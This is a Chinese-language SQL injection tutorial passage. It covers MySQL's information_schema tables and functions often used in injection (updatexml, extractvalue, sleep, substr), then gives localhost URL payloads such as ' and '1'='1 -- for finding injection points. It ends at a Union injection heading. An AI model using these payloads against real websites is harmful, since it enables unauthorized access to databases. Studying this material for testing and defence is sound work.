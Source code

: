 #### MYSQL–information_schema

在MYSQL_v5.0版本之后，有个名为information_schema的数据库，他存储了用户所有的数据库信息

##### Schemata

schemata表存储了该用户创建的所有数据库库名，位于字段**schema_name**中

##### Tables

tables表中记录了用户创建的所有数据库库名以及表名，数据库库名位于字段**table_schema**，数据库表名位于字段**table_name**

##### columns

columns表存放了该用户创建的所有数据库库名，表名，字段名 。数据库库名位于字段**table_schema**，数据库表名位于字段**table_name** ，表字段名位于字段**columns_name**

### SQL注入常用数据库函数

```sql
version(); -- MySQL版本
database(); -- 当前使用的数据库
user(); -- 当前数据库用户
length(); -- 返回字符串的字节长度(在utf8mb4编码中，一个汉字字符占3个字节)
char_length(); -- 用于返回字符串的字符个数
substr(str,start,len); -- 截取字符串 str=输入的字符串，start=开始的位置，len=长度 例如：substr('database',1,1)，该函数返回'd'字符
ascii(); -- 返回字符的ASCII值一般搭配substr使用
concat(str1,str2,str3); -- 将多个字符串连接成一个字符串
updatexml(XML_name, XPath_str, new_value); -- 改变文档中符合条件的节点值。xml_name:文档对象的名称,xpath_str:xpath格式的字符串,new_value:需要更改的新值
extractvalue(XML_name,Xpath_str); -- 从xml中返回所查询的值，输出字符长度限制为32个字符
floor(4.001); -- 向下取整 返回不大于4.001的最大整数:4
exp(); -- 用于将自然对数的底数提升为指定数字的幂
sleep(); -- 暂停程序执行，单位秒
if(expr,expr2,expr3); -- 判断函数 如果expr为真，执行expr2，反之执行expr3
left(str,len) -- 从左向右截取str，截取len位置
count() -- 返回指定列的条目数量
```

### 注入类型判断，注入点判断

```
//数字型
http://localhost/?id=1
http://localhost/?id=1 and 1=1 	//不报错,和 1 返回内容一样
http://localhost/?id=1 and 1=2	//不报错,和 1 返回内容不同
//字符型
http://localhost/?id=a //不报错
http://localhost/?id=a' //报错
http://localhost/?id=a' and '1'='1 -- aaaa //不报错 且和6一样
http://localhost/?id=a' and '1'='2 -- aaaa //不报错 和6不一样
```

#### Union 注入
